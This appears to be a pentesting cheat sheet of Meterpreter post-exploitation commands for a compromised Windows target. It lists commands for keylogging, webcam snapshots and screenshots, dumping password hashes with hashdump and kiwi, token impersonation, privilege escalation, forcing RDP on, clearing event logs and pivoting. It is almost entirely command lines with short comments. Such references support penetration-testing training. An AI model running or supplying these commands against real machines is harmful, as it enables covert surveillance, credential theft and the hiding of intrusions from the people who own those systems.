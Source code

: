 Meterpreter runs from the memory of the target machine. It allows us to migrate between system processes if required as well

1. <u>Basic System Information</u>

````bash
getuid 				# View User Info
sysinfo
net user 			# View users on System
ipconfig
ps 				
getprivs 			# View user privileges
find 				# Find files on System

# View privileges of current user
whoami /priv 		
whoami /groups

tasklist /SVC 		# View running processes
````

2. <u>Upload & Download File</u>

````bash
download <filename> 	# Download file from Target
upload <filename> <path-on-target>
````

3. <u>Capture Image</u>

````bash
webcam_list
webcam_snap
screenshot
````

4. <u>Keylogger</u>

````bash
keyscan_start
keyscan_dump 	# View all the keystrokes
keyscan_stop
````

5. <u>Operations on Target</u>

````bash
shell 					# Launch Shell - To go back use Ctrl + Z
clearev 				# Clear Tracks
migrate <process-id> 	# Migrate to different process
execute -f <filename>
getsystem 				# Try to escalate privileges
hashdump 				# Dump Hashes
````

When using migrate the target process should have the same privilege as the current process and show be of the same architecture as well

6. <u>Run Exploits</u>

````bash
run post/windows/gather/checkvm 				# Check if target is VM
run post/windows/gather/hashdump 				# Collect Password Hashes
run post/multi/recon/local_exploit_suggester 	# Find exploits for Target
run post/windows/manage/enable_rdp 				# Force Enable RDP

load kiwi 			# Start Kiwi
lsa_dump_sam 		# Dump Hashes

run autoroute -h 	# Setup autoroute for Pivoting

load incognito
list_tokens -u 		# View Tokens
impersonate_token "<token-name>"
````

7. <u>Session Management</u>

````bash
background

sessions -l 					# List Sessions
session -i <session-id>
session <number> 				# Select a Session

sessions -K 					# Kill all sessions
sessions -k <sess-id> 			# Kill a session
````
